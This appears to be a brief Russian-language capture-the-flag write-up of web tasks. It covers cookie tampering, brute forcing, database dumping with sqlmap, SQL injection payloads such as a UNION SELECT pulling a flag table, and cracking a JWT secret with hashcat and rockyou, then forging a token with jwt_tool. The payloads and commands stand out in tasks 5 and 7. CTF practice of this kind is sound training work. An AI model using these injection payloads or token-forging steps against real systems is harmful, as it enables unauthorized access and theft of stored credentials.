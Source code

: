 Task2 "Чтобы получить флаг, отправьте запрос с get-параметром name: PolyCTF и post-параметром flag: yep" ![Pasted image 20250205115558](https://github.com/user-attachments/assets/ac364fa1-11f7-434d-aefc-0ecdc09e170c)


Task 3. Выставляем Cookie: username=admin и получаем флаг

task 4. брут code

task 5. sqlmap (hard and all) Выдал данные из базы, в том числе пароли и флаг
![Pasted image 20250205170814](https://github.com/user-attachments/assets/47e11fed-25d7-44f4-ae21-b40b89bbc534)

-8409 OR 4979=4979 - генерирует запросы для всех купонов
-1 UNION SELECT fl4g FROM s3cret - позволяет вытащить флаг (если знать название таблицы с колонок)

task 6. Изменение значения в репиторе 

task 7 . Получаем jwt токен из запроса eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.KVcwu6cwfsOQXQooeH7-S0j__1NwteG-9jFZ63aApe0 
![Pasted image 20250205201706](https://github.com/user-attachments/assets/25b8d06f-5cf0-4014-8fd2-aece716fe134)

Через hashcat (hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt ) получаем закрытый ключ IC3QU33NS

С помощью jwt_tool (https://github.com/ticarpi/jwt_tool) изменяем данные в токене ```
python3 jwt_tool.py -T -p IC3QU33NS  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.KVcwu6cwfsOQXQooeH7-S0j__1NwteG-9jFZ63aApe0 -S hs256```
![Pasted image 20250205202008](https://github.com/user-attachments/assets/3915b7ce-6ccc-4dfe-b780-0ec47cae7c25)


Полученный токен отправляем через repeator и получаем флаг
![Pasted image 20250205202037](https://github.com/user-attachments/assets/b3706625-b323-4b2e-8600-c3730bf6fdea)


